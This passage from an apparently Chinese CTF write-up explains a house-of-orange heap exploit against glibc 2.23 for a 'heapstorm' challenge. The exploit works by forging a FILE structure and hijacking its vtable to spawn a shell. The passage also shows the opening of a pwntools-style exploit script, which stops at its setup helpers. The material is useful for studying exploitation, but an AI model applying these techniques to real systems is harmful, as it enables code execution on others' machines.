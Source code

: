 从上面的效果不难看出我们已经成功的构造了house-of-orange的所需条件，因为篇幅原因，并不能展开讲这个姿势，我简单的把利用过程当中具体流程梳理一下。

```
将unsorted bin的size修改为0x60(简单来说，为了使得fp-&gt;chain指向我们的chunk)，unsortedbin-&gt;bk = _IO_list_all – 0x10(目的是为了通过unsortedbin attack使得_IO_list_all 指向main_arena+0x58),然后其余的再布置过滤条件(fp-&gt;_mode &lt;= 0 &amp;&amp; fp-&gt;_IO_write_ptr &gt; fp-&gt;_IO_write_base)，以及vatable 、_IO_OVERFLOW 等。
     上面修改完成结束，unsorted bin已经被我们设置成我们想要的样子，然后触发malloc,则会发生，通过unsorted bin attack，_IO_list_all被指向main_arena+0x58，，触发_libc_message，_IO_list_all指向的内容不满足条件，又循环指向其fp-&gt;chain，即我们布置的fake_file的chunk（位于0x60的small bin中），然后满足条件，触发vtable中的_IO_overflow，执行system('/bin/sh')。
```

如果有对house-of-oragege不了解的小伙伴，具体的可以参考S1mple[的博客，我当初就是在这里面学会的house-of-orange。](http://blog.leanote.com/post/simp1e/9571ae32e8ca)

### <a class="reference-link" name="%E5%AE%8C%E6%95%B4exp"></a>完整exp

```
#!usr/bin/env python
# -*- coding:utf-8 -*-
#from libformatstr import *
from PwnContext.core import *
if __name__ == '__main__':

    #-----function for quick script-----#
    s       = lambda data               :ctx.send(str(data))        #in case that data is a int
    sa      = lambda delim,data         :ctx.sendafter(str(delim), str(data)) 
    st      = lambda delim,data         :ctx.sendthen(str(delim), str(data)) 
    sl      = lambda data               :ctx.sendline(str(data)) 
    sla     = lambda delim,data         :ctx.sendlineafter(str(delim), str(data))
    r       = lambda numb=4096          :ctx.recv(numb)
    ru      = lambda delims, drop=True  :ctx.recvuntil(delims, drop)
    irt     = lambda                    :ctx.interactive()

    rs      = lambda *args, **kwargs    :ctx.start(*args, **kwargs)
    leak    = lambda address, count=0   :ctx.leak(address, count)


    uu32    = lambda data   :u32(data.ljust(4, ''))
    uu64    = lambda data   :u64(data.ljust(8, ''))

    debugg = 1
    logg = 1

    TEST_BIN = './heapstorm'
    TEST_LIB = 'libc-2.23.so'

    ctx.binary = TEST_BIN
    ctx.remote_libc = TEST_LIB
    ctx.debug_remote_libc = False # this is by default

    ctx.remote = ("127.0.0.1",10086)

    if debugg:
        rs()
    else:
        rs(method = 'remote')


    if logg:
        context(log_level = "debug",os = "linux")
        context.terminal = ["gnome-terminal","-x","sh","-c"]

    def lg(s,addr):
        print('33[1;31;40m%20s--&gt;0x%x33[0m'%(s,addr))
```